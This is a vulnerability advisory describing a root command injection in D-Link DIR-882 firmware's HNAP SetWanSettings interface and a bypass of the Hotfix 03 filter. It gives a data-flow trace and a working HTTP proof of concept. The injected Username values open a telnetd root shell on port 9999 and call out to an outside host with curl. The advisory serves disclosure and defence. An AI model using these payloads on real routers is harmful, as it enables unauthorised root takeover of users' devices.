

# Root Remote Code Execution (RCE) in D-Link DIR-882

**Date:** May 15, 2026

**Discoverer:** [Ruoqin Zou](https://github.com/M0dZer0) And [Hanwen Zhang](https://github.com/rowerman)

**Vulnerability Type:** Command Injection (CWE-77)

## 1. Executive Summary

A critical command injection vulnerability exists in the HNAP (Home Network Administration Protocol) interface of multiple D-Link DIR-882 firmware versions. By sending a specifically crafted `SetWanSettings` SOAP request, an authenticated attacker can inject arbitrary shell commands that are executed with **root privileges**. This occurs due to insufficient sanitization of the `Username` and `Password` fields before they are passed to a system shell command in the `rc`service.

## 2. Affected Products

The following firmware versions for the **D-Link DIR-882 A1** hardware are confirmed to be vulnerable:

- **DIR882A1_FW130B06**
- **DIR882A1_FW130B06_Hotfix_02 Beta**
- **DIR882A1_FW130B06_Hotfix_03 Beta**

## 3. Patch Bypass Analysis

Following the disclosure of **CVE-2021-44880**, D-Link attempted to mitigate command injection vulnerabilities in the HNAP interface through the release of **DIR882A1_FW130B06_Hotfix_03 Beta**. https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10287 However, our analysis confirms that the security patch is **incomplete** and the injection vector remains exploitable.

The Hotfix 03 Beta implementation only introduced a rudimentary blacklist filter specifically targeting the semicolon (`;`) character for command concatenation. It fails to account for other standard shell logical operators. We have successfully verified that using the **ampersand (`&`)** or **double ampersand (`&&`)** as a delimiter (e.g., `& [command] &` in XML) bypasses the existing filter entirely, allowing arbitrary command execution with root privileges. This demonstrates that the root cause—unsanitized input being passed to `system()`—persists in the latest beta firmware.

## 4. Path: WAN-VPN `SetWanSettings` -> root RCE

### Full Data Flow

```
HNAP /HNAP1/SetWanSettings
  Type = "PPTP" | "L2TP" | DynamicPPTP | StaticPPTP | DynamicL2TP | StaticL2TP
  Username = ';telnetd -l /bin/sh -p 9999;'
  Password = AES_enc('x')
       │
       ▼
prog.cgi!sub_465E68  (SetWanSettings handler, @0x465E68)
       │  0x467180  webGetVarString("/SetWanSettings/Username")   <- only a `bnez` non-empty check
       │  0x4671d0  webGetVarString("/SetWanSettings/Password")
       │  0x467238  decrypt_aes(session_key, Password_b64, plain) <- raw bytes after decryption
       │  0x46830c  jal sub_46591C(proto, user, pass, …)          <- enters the write routine
       ▼
prog.cgi!sub_46591C  (@0x46591C) - writes to nvram
       │  0x4659bc  nvram_safe_set("wan_wan0_proto", "pptp" | "l2tp")
       │  0x465c8c  nvram_safe_set("wan_wan0_vpn_username", user)  <- no `strchr`, no length trimming
       │  0x465cc0  nvram_safe_set("wan_wan0_vpn_passwd",  pass)   <- no filtering
       │  → serviceApplyAction(1, 4, "stop_wan")
       │  → serviceApplyAction(1, 4, "start_wan")
       ▼
rc!start_wan  (dispatched via `notify_rc`)
       │  nvram_safe_get("wan_wan0_proto") → strcmp("pptp") / strcmp("l2tp")
       │
       │  PPTP branch:
       │   0x41e9bc  sprintf(buf, "echo '%s * %s *'>/tmp/ppp/pap-secrets",  user, pass)
       │             system(buf)                                                  ⚠
       │   0x41ea54  sprintf(buf, "echo '%s * %s *'>/tmp/ppp/chap-secrets", user, pass)
       │             system(buf)                                                  ⚠
       │
       │  L2TP branch:
       │   0x41fbac  sprintf(buf, "echo '%s * %s *'>/tmp/l2tp/l2tp-secrets", …)    ⚠
       │   0x41fc44  sprintf(buf, "echo '%s * %s *'>/tmp/ppp/pap-secrets",   …)    ⚠
       │   0x41fcdc  sprintf(buf, "echo '%s * %s *'>/tmp/ppp/chap-secrets",  …)    ⚠
       ▼
  Five `sprintf -> system` sinks, executed as root
```

### Key Evidence

- `prog.cgi:0x467180 / 0x4671d0` - Username / Password are read from XML with only a non-empty check.
- `prog.cgi:0x465c80-0x465cd0` - There is **no character filtering at all** before writing `wan_wan0_vpn_username / wan_wan0_vpn_passwd`.
- `rc:0x41e9bc / 0x41ea54 / 0x41fbac / 0x41fc44 / 0x41fcdc` - All five sinks are `nvram_safe_get -> sprintf -> system` with no sanitization in between.
- Script-based enumeration of all external calls inside `sub_46591C` / `start_wan` found no functions such as `strchr`, `strpbrk`, or `escape_shell_meta`.

### Actual Command String Executed

Using PPTP with `Username = ';telnetd -l /bin/sh -p 9999;'` and `Password = AAAA` as an example, the actual string passed to `system()` is:

```sh
echo '';telnetd -l /bin/sh -p 9999;'' * AAAA *'>/tmp/ppp/pap-secrets
```

The four single quotes pair correctly, so the command is syntactically valid:

- `echo ''` (outputs an empty string)
- `;telnetd -l /bin/sh -p 9999;` (a standalone command executed as root)
- `'' * AAAA *'>/tmp/ppp/pap-secrets` (the remaining `echo`, redirected by the shell; glob expansion of `*` is not relevant here)

### PoC

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetWanSettings"
HNAP_AUTH: <valid auth>
Cookie: uid=<session>

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <SetWanSettings xmlns="http://purenetworks.com/HNAP1/">
      <WANID>1</WANID>
      <Type>PPTP</Type>
      <Username>';curl 192.168.0.55:12345;'</Username>
      <Password>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</Password>
      <AutoReconnect>true</AutoReconnect>
      <MaxIdleTime>0</MaxIdleTime>
      <IPAddress>1.2.3.4</IPAddress>
      <SubnetMask>255.255.255.0</SubnetMask>
      <Gateway>1.2.3.1</Gateway>
      <MTU>1400</MTU>
      <ServiceName></ServiceName>
      <MacAddress></MacAddress>
    </SetWanSettings>
  </soap:Body>
</soap:Envelope>
```

In **DIR882A1_FW130B06_Hotfix_03 Beta**,we can replace `;` with `&` to exploit.

